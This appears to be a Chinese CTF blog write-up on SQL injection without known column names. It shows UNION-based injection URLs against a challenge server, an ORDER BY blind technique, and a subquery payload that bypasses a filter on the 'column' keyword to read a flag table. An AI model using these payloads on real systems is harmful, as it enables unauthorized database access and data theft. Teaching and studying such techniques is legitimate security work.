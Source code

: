 ```yaml
---
title: "一道题引发的无列名注入"
date: 2019-08-22T20:41:24+08:00
draft: false
tags: ['ctf']
categories: ['CTF笔记']
---
```


@Syst1m的考核题

<!--more-->
题目地址 http://152.136.179.79:18084/ 传入id=3为flag的id。

常规联合查询注入 
```
http://152.136.179.79:18084/?id=3 union select 1,2,3
```
三个字段
```
http://152.136.179.79:18084/?id=3 union select 1,2,(select table_name from information_schema.tables where table_schema=database())
```
拿到flag所在的表，继续查列名
```
http://152.136.179.79:18084/?id=3 union select 1,2,(select column_name from information_schema.columns where table_name='this_1s_th3_fiag_tab13')
```
死活查不出来，应该是过滤了column关键字，没有列名怎么查出来数据呢？？？

有两种方法
1. order by盲注
2. 子查询

本地测试建表

![20190822205338](https://y4er.com/img/uploads/20190822205338.png)

![20190822205621](https://y4er.com/img/uploads/20190822205621.png)

## order by盲注

order by用于根据指定的列对结果集进行排序。一般上是从0-9a-z这样排序，不区分大小写。

先来本地测试一下

![20190822210044](https://y4er.com/img/uploads/20190822210044.png)

可以看到我们构造的数据排在了第一行

![20190822210124](https://y4er.com/img/uploads/20190822210124.png)

仍然在第一行

![20190822210155](https://y4er.com/img/uploads/20190822210155.png)

当拿'q'和'pass'做比较时，我们构造的数据被排在了第二行。由此可以来根据不同的回显来逐位判断。

拿我们这道题来说

![20190822210915](https://y4er.com/img/uploads/20190822210915.png)

1的时候我们的数据在前

![20190822210948](https://y4er.com/img/uploads/20190822210948.png)

2的时候原始数据在前，说明第一位是1

然后判断第二位

![20190822211104](https://y4er.com/img/uploads/20190822211104.png)

1a的时候我们的数据在前

![20190822211144](https://y4er.com/img/uploads/20190822211144.png)

1b的时候原始数据在前，说明第二位是1a

由此逐位判断。

## 子查询

在无列名的情况下，用子查询可以很简单的将数据跑出来。

子查询是将一个查询语句嵌套在另一个查询语句中。在特定情况下，一个查询语句的条件需要另一个查询语句来获取，内层查询（inner query）语句的查询结果，可以为外层查询（outer query）语句提供查询条件。

![20190822214132](https://y4er.com/img/uploads/20190822214132.png)

**这个语句将列名转换为了1,2,3**，这个时候列名就已知了，我们可以用子查询将数据归并。

![20190822214824](https://y4er.com/img/uploads/20190822214824.png)

此时就能查出来数据了，然后我们再来看这个题。

我们已知了表名为`this_1s_th3_fiag_tab13`，但是不知道这个表有几个字段

![20190822220530](https://y4er.com/img/uploads/20190822220530.png)

可以用联合查询的方式来判断字段数。

查出数据

![20190822220706](https://y4er.com/img/uploads/20190822220706.png)

拿到我们这个题里来

![20190822220930](https://y4er.com/img/uploads/20190822220930.png)

payload

```
http://152.136.179.79:18084/?id=3 union select 1,2,x.2 from (select * from (select 1)a,(select 2)b,(select 3)c,(select 4)d union select * from this_1s_th3_fiag_tab13)x
```

子查询真是个好东西👍

## 写在文后

本文介绍了两种无列名注入的方式，很巧妙的在没有列名的情况下查出来数据，在实际利用中更推荐用子查询的方式，毕竟盲注有可能费力不讨好。

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**